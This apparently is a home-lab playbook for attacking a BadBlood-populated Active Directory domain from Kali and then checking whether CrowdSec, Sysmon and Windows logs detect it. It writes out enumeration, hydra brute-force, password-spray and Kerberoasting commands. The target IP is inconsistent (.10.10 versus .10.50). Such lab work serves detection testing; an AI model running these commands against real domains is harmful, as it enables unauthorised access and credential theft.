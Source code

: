 # Active Directory Attack Playbook (Using BadBlood Users)

## **Overview**

- **Target:** Active Directory Server: Windows Server 2022 Datacenter Evaluation
  - IP Address: `192.168.10.10`
  - Domain: `soclab.local`
  - Vulnerable Users: Populated by **BadBlood**
 
  Assuming the Attacker has the list of the names of the domain beacuse they got leaked.

- **Attacker:** Kali Linux
  - IP Address: `192.168.20.30`

- **Network architecture:** Both machines are connected and go through **pfSense** for monitoring and CrowdSec integration, but in different subnet.

---

## **1. Identify BadBlood Users**

### From the Active Directory Server:

Log into the AD server and list the users generated by **BadBlood**:

```powershell
Get-ADUser -Filter * | Select-Object Name, SamAccountName
```

### From the Kali Linux Machine:

Enumerate users via LDAP (replace values accordingly):

```bash
ldapsearch -x -h 192.168.10.50 -D "user@soclab.local" -W -b "dc=soclab,dc=local"
```

**Objective:** Identify target users with weak or known passwords.

---

## **2. Enumerate Active Directory (LDAP/SMB)**

### Using **enum4linux**

```bash
enum4linux -a 192.168.10.50
```

### Using **rpcclient** (SMB enumeration)

```bash
rpcclient -U "guest" 192.168.10.50
```

List available users:

```bash
querydispinfo
```

**Objective:** Gather information about domain users, shares, and policies.

---

## **3. Brute-Force AD Accounts**

### SMB Brute-Force (Weak Passwords)

```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt smb://192.168.10.50
```

### LDAP Brute-Force

```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt ldap://192.168.10.50
```

**Objective:** Identify vulnerable accounts with weak passwords.

---

## **4. Password Spray Attack**

Simulate a slow password spray (avoid account lockout):

```bash
crackmapexec smb 192.168.10.50 -u /usr/share/wordlists/common_users.txt -p Welcome2024
```

**Objective:** Detect users with predictable passwords without triggering lockout.

---

## **5. Kerberoasting Attack (Steal Service Account Hashes)**

Ensure **Impacket** is installed:

```bash
sudo apt install python3-impacket
```

Run the **Kerberoasting** attack:

```bash
GetUserSPNs.py soclab.local/user:Password123 -request
```

**Objective:** Extract service account hashes for offline cracking.

---

## **6. Analyze Detection (CrowdSec + Sysmon + Windows Event Logs)**

1. **Sysmon (Windows)**:
    - Event ID **4625**: Failed Logon Attempts
    - Event ID **4769**: Kerberos TGS Requests

2. **CrowdSec Alerts**:
    - Monitor the dashboard for IP bans.
    - Check active decisions:

    ```bash
    sudo cscli decisions list
    ```

3. **Windows Event Viewer**:
    - Security > Audit Failure (Event ID 4625, 4740)

**Objective:** Confirm detection and analyze attack visibility.

---

## **7. Next Steps**

- Perform **Lateral Movement** (e.g., **Pass-the-Hash**).
- Test **LDAP Injection** and privilege escalation.
- Monitor logs for **CrowdSec bans** and firewall blocks.


